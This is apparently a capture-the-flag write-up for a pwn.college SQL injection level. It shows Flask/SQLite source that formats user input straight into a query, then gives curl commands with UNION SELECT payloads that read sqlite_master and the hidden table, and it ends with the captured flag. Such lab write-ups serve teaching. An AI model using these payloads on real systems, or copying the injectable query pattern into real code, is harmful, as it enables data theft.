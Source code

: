 # Level 6

We are given with a takl of `Exploit a structured query language injection vulnerability with an unknown database structure`

We are given with machine and souce code of the machine

```python {3} /{query}/ copy

def level6():
    table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"
    db.execute((f"CREATE TABLE IF NOT EXISTS {table_name} AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)

```

It is same challenge as level 5 but here we have to find the table name which is created by the hash of the flag

when we pass the previous query we got errors

```bash /sqlite3/
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1484, in full_dispatch_request
    rv = self.dispatch_request()
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1469, in dispatch_request
    return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)
  File "/challenge/run", line 670, in catch_all
    return challenge()
  File "/challenge/run", line 158, in level6
    users = db.execute(f'SELECT username FROM {table_name} WHERE username LIKE "{query}"').fetchall()
  File "/challenge/run", line 39, in execute
    result = cursor.execute(sql, parameters)
sqlite3.OperationalError: no such table: users
```

Now we now its a sqlite database and we can use `sqlite_master` to get the table name

```bash /sqlite3/ copy
curl -X GET 'http://challenge.localhost/?query=flag" UNION SELECT tbl_name FROM sqlite_master-- -'
```

reponse is `table10623237887438613517`

Now we can use this table name to get the flag

```bash copy
curl -X GET 'http://challenge.localhost/?query=flag" UNION SELECT password FROM table10623237887438613517-- -'
```
That retrived the flag for us 🚩 
```bash copy
pwn.college{gfxwg_D78SD3e4-8ri7H45vME8Y.dJTOzMDL0IzMyMzW}
```
